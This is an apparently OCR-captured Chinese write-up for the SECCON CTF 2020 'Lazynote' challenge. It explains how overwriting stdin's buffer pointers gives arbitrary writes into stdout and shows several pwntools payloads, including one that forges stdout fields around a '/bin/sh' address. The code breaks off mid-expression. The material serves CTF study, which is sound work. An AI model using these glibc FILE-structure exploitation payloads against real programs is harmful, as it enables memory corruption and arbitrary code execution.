 ##### Lazynote seccon-ctf-2020

输入这次payload的时候是已经构造 IO_BUF_base结尾为\x00，即buf_base < end,刚好指向stdin结构体

**且 read_ptr == read_end（默认）所以向buf_base写，也就是payload篡改了stdin**结构体

```python
#wp-1
payload = p64(0x00000000fbad208b) 
+ p64(stdin + 0x50) 
+ p64(stdin + 0x50 - 68) 
+ p64(stdin + 0x50) 
+ p64(stdin)*3 
+ p64(stdout - 14)                     # _IO_buf_base 对下一次 输入而言
+ p64(stdout + 0x100) 				   # _IO_buf_end
+ p64(0) + '1' + '\x00'*13 + '10'
# 这次的payload
```



```python
#出题人wp
payload = p64(0xfbad208b)
payload += p64(libc_base + libc.symbol('_IO_2_1_stdout_') + 0xd8)
payload += p64(libc_base + libc.symbol('_IO_2_1_stdout_')) * 6
payload += p64(libc_base + libc.symbol('_IO_2_1_stdout_') + 0x2000)
payload += b'\0' * (8*7 + 4) # padding
# 这里构造一次输入就可以利用stdin的任意地址写写到stdout的原因是

# 执行这次输入的时候 io_read_ptr == io_read_end
# 所以输入到io_buf_base, 由于这时候的io_buf_end - base的大小为0x84个字节，所以向io_buf更新0x84，也就是上面一部分的payload大小，更新之后，发现io_read_ptr = 0xd8 >  read_end ，所以继续向新的io_buf_base更新
# 所以这里上部分的payload也可以构造为
# 发送80个数据，更新end，发现相等即可满足 》= 条件，

payload = p64(0xfbad208b)
payload += p64(libc_base + libc.symbol('_IO_2_1_stdout_') + 0x80) #80 = 发送长度
payload += p64(libc_base + libc.symbol('_IO_2_1_stdout_')) * 6
payload += p64(libc_base + libc.symbol('_IO_2_1_stdout_') + 0x2000)
p.sendafter("> ", payload)
'''
'''

new_size = libc_base + next(libc.find("/bin/sh"))
payload += p64(0xfbad1800)
payload += p64(0) # _IO_read_ptr
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += p64(0) # _IO_write_base
payload += p64((new_size - 100) // 2) # _IO_write_ptr
payload += p64(0) # _IO_write_end
payload += p64(0) # _IO_buf_base
payload += p64((new_size - 100) // 
·······
```
